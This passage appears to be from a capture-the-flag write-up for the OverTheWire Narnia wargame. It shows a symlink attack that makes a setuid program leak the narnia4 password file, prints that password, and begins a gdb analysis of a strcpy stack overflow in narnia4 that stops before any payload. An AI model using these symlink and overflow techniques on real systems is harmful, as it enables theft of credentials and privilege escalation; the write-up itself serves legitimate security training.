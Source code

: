 that at (2), the program tried to open the `lala` file which is what the attacker provided.
Also, at (3), the program tried to open a file that doesn't exist. So, by creating a symlink 
to this specific attacker input for the password file of `narnia4`, one should be able to 
leak the password of the latter inside the attacker controlled file created before.

    narnia3@gibson:/tmp/tsos$ ln -s /etc/narnia_pass/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlala 
    narnia3@gibson:/tmp/tsos$ /narnia/narnia3 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlala
    copied contents of AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAlala to a safer place... (lala)
    narnia3@gibson:/tmp/tsos$ cat lala
    iqNWNk173q

Password: **iqNWNk173q**


## narnia4

After connecting to the specific level with `ssh` by typing
    *ssh narnia4@narnia.labs.overthewire.org -p 2226* 
with password 
    *iqNWNk173q*

one can find the source code for `narnia4` binary right below.

    #include <string.h>
    #include <stdlib.h>
    #include <stdio.h>
    #include <ctype.h>

    extern char **environ;

    int main(int argc,char **argv){
        int i;
        char buffer[256];

        for(i = 0; environ[i] != NULL; i++)
            memset(environ[i], '\0', strlen(environ[i]));

        if(argc>1)
            strcpy(buffer,argv[1]);

        return 0;
    }

The vulnerability lies in `strcpy` call where argv[1] is copied inside `buffer`
without any checks being taken into considerations. By providing a payload greater
than 256 maybe we could be able to overwrite stuff inside the stack, including the 
return address (where main returns after executing). After inspecting with gdb and 
setting a break point right after the strcpy call, 

    (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /narnia/narnia4 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html